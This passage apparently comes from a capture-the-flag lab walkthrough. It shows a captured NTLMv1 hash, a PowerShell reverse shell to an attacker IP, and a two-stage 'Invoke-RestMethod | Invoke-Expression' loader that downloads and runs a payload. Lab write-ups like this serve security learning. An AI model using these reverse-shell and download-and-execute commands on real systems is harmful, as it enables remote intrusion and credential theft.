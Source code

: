 ```bash
# put login.vbs
```

It works! Our Responder got a connection:
```
[SMB] NTLMv1-SSP Client   : 10.10.106.56
[SMB] NTLMv1-SSP Username : BABY2\Amelia.Griffiths
[SMB] NTLMv1-SSP Hash     : Amelia.Griffiths::BABY2:57B3E76E5BD1236D00000000000000000000000000000000:037BF719B5AE04B001A3804B77CBFDD6BE826D9B5101B972:1122334455667788
```
We could try to crack the hash, but it doesn't work.
Instead we have to upload a Reverse shell.

#### 2. Test reverse shell
First we download a [reverse shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3). And then change the first parameters to out LHOST and LPORT:

```powershell
$ cat rev.ps1
$client = New-Object System.Net.Sockets.TCPClient('10.8.3.211',443);[...]
```
Now we want to make sure that it works, so we DON'T LOSE TOO MUCH TIME.
Then we create a listener 
```bash
$ nc -lnvp 443
```
and run the script in a different terminal:
```bash
$ powershell rev.ps1
```

And it works!

```bash
Ncat: Connection from 10.8.3.211.
Ncat: Connection from 10.8.3.211:33594.
```
#### 3. Two-Stage reverse shell
To assist in debugging and having a shorter payload, the script will download the payload 
from our server and then execute it. The command is:
```bash
Invoke-RestMethod http://10.8.3.211/rev.ps1 | Invoke-Expression
```
For that we start a http-server on port 80
```bash
python3 -m http.server 80
```
And test it again locally :D
```powershell
$ powershell
powershell -c 'Invoke-RestMethod http://10.8.3.211/rev.ps1 | Invoke-Expression'
```
Our server reports that the file is loaded
```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.8.3.211 - - [06/Oct/2024 23:28:18] "GET /rev.ps1 HTTP/1.1" 200 -
```
And we also get the reverse shell:
```bash
$ nc -lnvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.8.3.211.
Ncat: Connection from 10.8.3.211:58048.
PS /workspace>
```
